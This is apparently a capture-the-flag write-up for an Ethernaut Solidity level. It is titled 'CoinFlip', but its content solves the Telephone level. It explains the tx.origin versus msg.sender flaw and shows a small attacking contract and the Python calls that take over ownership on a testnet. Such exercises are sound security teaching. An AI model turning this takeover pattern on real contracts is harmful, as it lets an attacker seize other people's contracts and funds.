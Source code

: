 # CoinFlip

## Objectives

Claim ownership of the contract to complete this level.

## Solution

The function `changeOwner()` compares whether the address that sends the tx (`tx.origin`) is the same as the address that interacts with the contract (`msg.sender`). In this case it isn't, so the owner is changed as per the function's instructions:

```cs
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

Therefore, the only thing needed here is a attacking contract which interacts with the original Telephone contract. This way the contract is the `msg.sender` while the address that interacts with the attacking contract is the `tx.origin`.

## How I did it

1. I deployed the contract `TelephoneAttack` (at: `0x756a2E146F4f9659E7c16a90948A09aB09925F19`) which interfaces with the original Telephone contract and calls its `changeOwner()` function as follows:

```cs
function callChangeOwner(address _newOwner) external {
    telephoneContract.changeOwner(_newOwner);
}
```

where `_newOwner` is the address we want to assign as new contract owner for the Telephone contract.

2. Set the instance address and call the function with my account address from which I deployed the attacking contract:

```python
telephoneattack.callChangeOwner(acc.address, _from)  
```

Block explorer: https://rinkeby.etherscan.io/tx/0x20ffc17549522276816942656e14c9fe459064afd3f99e0f851ca555cfb64711

3. Check that we're the new owner

```python
owner_assertion = telephone.owner() == acc.address
print(f'The account owner matches my address: {owner_assertion}')
```

## Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x7c11bb8f65a6117b8f2e17622f3bbdcc81214b8d5daafa41bbbeb54dfc60e4b5

